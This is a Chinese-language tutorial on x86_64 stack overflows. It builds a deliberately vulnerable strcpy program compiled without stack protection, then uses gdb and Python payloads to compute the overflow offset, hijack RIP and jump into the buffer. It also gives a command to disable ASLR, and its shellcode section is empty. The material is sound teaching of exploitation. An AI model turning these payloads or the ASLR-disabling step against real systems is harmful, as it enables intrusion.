 # 栈溢出

## 函数调用 回顾

（若该函数有参数传入   则先进行参数入栈。一般从左到右）

```
1.call   xxxx  
入栈返回地址 ，即call指令的下一个地址（rip执行）并且跳转到  指令 xxxx
（然后开始栈帧调整）
push ebp 			；保存旧栈帧的底部

mov ebp，esp   ；设置新栈帧的底部（栈帧切换）

sub esp，xxx    ；设置新的栈帧的顶部（抬高栈顶，为新栈帧开辟空间）


**2.局部变量入栈**


**3.调用结束后**

函数返回

保存返回值：通常将函数的返回值保存在寄存器 EAX 中

弹出当前栈帧，恢复上一个栈帧具体命令：

add	esp, xxx 	;降低栈顶，回收当前的栈帧			

pop ebp			;将上一个栈帧底部位置恢复到 ebp		

Retn			; 这条指令有两个功能	：
						a)弹出当前栈顶元素，即弹出栈帧中的返回地址。 至此栈帧恢复工作完成 。
						b)让处理器跳转到弹出的返回地址，恢复调用前的代码区
```





## 1.x86和x86_64的区别

​		主要区别就是内存地址的大小。不过即便 **x86_64** 内存地址有64位长用户空间也只能使用前47位，要牢记这点，因为当你指定一个大于0x00007fffffffffff的地址时会抛出一个异常。那也就意味着0x4141414141414141会抛出异常而0x0000414141414141是安全的。

​		事实上还有很多其他的不同但是考虑到本文的目的不了解所有的差异也没关系。

## 2.漏洞代码片段

```
//bof.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(int argc, char **argv) {
char buffer[256];
if(argc != 2) {
exit(0);
}
printf("%p\n", buffer);
strcpy(buffer, argv[1]);
printf("%s\n", buffer);
return 0;
}

```

可以用gcc编译上述代码。

```
$ gcc -m64 bof.c -o bof -z execstack -fno-stack-protector -g
//-z 与关键字 execstack 一起直接传递给链接器。
//-fno-stack-protector -o test test.c 禁用栈保护
```

代码分析：

```
溢出发生在 strcpy，将main函数调用前入栈的rip的值覆盖
触发发生在main函数调用结束，ret返回时弹出溢出的rip 并且执行。
```



## 3.触发溢出 

首先确认一下确实可以让这个进程崩溃。

```
$ ./bof $(python -c 'print "A" * 300)
```

![image-20220901193929208](栈溢出.assets//image-20220901193929208.png)

首先观察strcpy后的栈的情况

```
gdb -tui bof 
layout asm 
b strcpy   			//在strcpy处下断点
r $(python -c 'print "A" * 300')
finish   			//将函数strcpy执行完毕
x/20xg $rsp   		//查 64 位程序内存信息
	/* x 指令用于查看内存地址的值  具体看gdb调试文档
```

![image-20220903133351658](4.栈溢出.assets/image-20220903133351658.png)

观察执行到ret时的寄存栈的情况

![image-20220903133624163](4.栈溢出.assets/image-20220903133624163.png)

可以看到leave指令把rsp指向0x7fffffffde98。此时观察寄存器的值，

```
info reg
```

![image-20220903134028493](4.栈溢出.assets/image-20220903134028493.png)

并观察rip中的值

![image-20220903135528338](4.栈溢出.assets/image-20220903135528338.png)



在次单步执行时程序结束，但是没有控制rip，原因就是覆盖了太多位  

最大的地址是0x00007fffffffffff   而我们尝试用0x4141414141414141去溢出了。

## 0x04 控制RIP

​	用个小一点的缓冲区去溢出这样指向rsp的地址就会像0x0000414141414141一样了。

​	通过简单的数学运算就可以很轻松地算出我们缓冲区的大小。我们知道缓冲区开始于0x7fffffffdd90。Leave指令之后rsp将指向0x7fffffffde98。

```
0x7fffffffde98-0x7fffffffdd90 = 0x108 -> 十进制的264
```

因此，我们可以修改缓冲区

```
"A" * 264 + "B" * 6
```

此时rsp指向的地址应该像0x0000424242424242一样正常了。那样就能控制RIP。

```
gdb -tui bof 
layout asm 
b strcpy   			//在strcpy处下断点
run $(python -c 'print "A" * 264 + "B" * 6')
finish   			//将函数strcpy执行完毕
```

直接查看调用leave指令后的栈的情况

![image-20220903154530970](4.栈溢出.assets/image-20220903154530970.png)

​	rsp指向0x7fffffffdeb8而0x7fffffffdeb8的内容就是0x0000424242424242。

接着再次单步进入，执行ret指令 。 如下图 ，rip变成了理想的值。

![image-20220903154950321](4.栈溢出.assets/image-20220903154950321.png)

## 5. 跳入用户控制的缓冲区

​	只需要将rip改为缓冲区的开头,也就是在strcpy后`printf` 显示出来的值。

在改变传入的参数后，缓冲区的起始地址为‘`0x00007fffffffddb0`。通过 `gdb` 也可以很容易地重新获得这个值,只需在调用 `strcpy` 之后显示栈。

![image-20220903155740972](4.栈溢出.assets/image-20220903155740972.png)

 重新构造缓冲区：

```
"A" * 264 + "\x7f\xff\xff\xff\xdd\xb0"[::-1]
```

因为是小端结构所以我们需要把内存地址反序。这就是python语句[::-1]所实现的。

然后gdb调试，确认rip是否为理想值

```
gdb -tui bof 
layout asm 
b strcpy   			//在strcpy处下断点
run $(python -c 'print "A" * 264 +"\x7f\xff\xff\xff\xdd\x10"[::-1]')
finish   			//将函数strcpy执行完毕
```

![image-20220903160155589](4.栈溢出.assets/image-20220903160155589.png)

这是leave指令后的栈，上图中rsp指向0x7fffffffdeb8,而地址0x7fffffffdeb8的内容是0x00007fffffffdd10。最后0x00007fffffffdd10指向我们控制的缓冲区。

​	ret指令执行后，会将rsp中的内容   pop rip。如下图 rip指向0x00007fffffffdd10说明跳入了正确的位置。

![image-20220903161117594](4.栈溢出.assets/image-20220903161117594.png)

# 6.执行shellcode









#### ALSR

aslr是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化，通过增加攻击者预测目的地址的难度，防止攻击者直接定位攻击代码位置，达到阻止溢出攻击的目的的一种技术。如今Linux，Windows等主流操作系统都已采用了该技术。



ALSR由 `/proc/sys/kernel/randomize_va_space` 决定，默认为2

```
0 - 表示关闭进程地址空间随机化

1 - 表示将mmap的基址，stack和vdso页面随机化。

2 - 表示在1的基础上增加栈（heap）的随机化。
```

要关闭ALSR，只需将`randomize_va_space`里面的内容改为0即可。

修改该文件不能直接用 `vi` 或者 `vim` 进行修改,也不能直接 `sudo echo 0 > /proc/sys/kernel/randomize_va_space`

使用此条命令即可关闭ALSR：`sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"`



